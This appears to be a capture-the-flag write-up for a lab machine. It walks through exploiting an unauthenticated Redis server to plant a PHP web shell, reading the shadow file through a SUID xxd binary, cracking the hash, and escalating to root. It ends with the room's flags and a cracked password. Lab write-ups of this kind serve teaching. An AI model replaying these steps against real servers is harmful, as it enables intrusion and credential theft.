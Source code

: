 # RES

## NMAP SCAN

```text
PORT STATE SERVICE VERSION  
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))  
|_http-server-header: Apache/2.4.18 (Ubuntu)  
|_http-title: Apache2 Ubuntu Default Page: It works  
6379/tcp open redis Redis key-value store 6.0.7
```

## REDIS ENUMERATION

```text
nc -vn 10.10.106.155 6379  
INFO

$3677  
#Server  
redis_version:6.0.7  
redis\_git\_sha1:00000000  
redis\_git\_dirty:0  
redis\_build\_id:5c906d046e45ec07  
redis_mode:standalone  
os:Linux 4.4.0-189-generic x86_64  
arch_bits:64
......
```

Logged in redis port and make sure that the /var/www/html is the directory of the webpage

```text
redis-cli -h 10.10.106.155 

CONFIG GET dir

CONFIG SET dir /var/www/html
```

Then use the metasploit auxiliary module to upload a file \(shell.php\)

![](../.gitbook/assets/c19ed891997a4854a0139a0128d2bb16.png)

Go to Browser in shell.php directory

![](../.gitbook/assets/9d5a4883320f4b29965393b819bad8d2.png)

Works get a www-data shell

![](../.gitbook/assets/6bf59f3a22424c379ede4085f8a5d492.png)

## PRIVESC

In the SUID Files we have the suid xxd and we can read any file we want

```text
find / -perm -u=s -type f 2>/dev/null
```

lets read the shadow file

![](../.gitbook/assets/6d42129a78be4aab99bfa5a354709ce8.png)

Use hashcat to decrypt \(in Windows Machine \| FASTER\)

```text
hashcat.exe -m 1800 hash rockyou.txt
```

![](../.gitbook/assets/070c3d60fbbb45af8fd627b7f064b52c.png)

swith to user vianka

and vianka has sudo privs

so sudo /bin/bash

![](../.gitbook/assets/0993b24684dc4a44b511fb3c9532e2c0.png)

## ANSWERS

1. Scan the machine, how many ports are open?

```text
2
```

1. What's is the database management system installed on the server?

```text
Redis
```

1. What port is the database management system running on?

```text
6379
```

1. What's is the version of management system installed on the server?

```text
6.0.7
```

1. Compromise the machine and locate user.txt

```text
thm{red1s_rce_w1thout_credent1als}
```

1. What is the local user account password?

```text
beautiful1
```

1. Escalate privileges and obtain root.txt

```text
thm{xxd_pr1v_escalat1on}
```

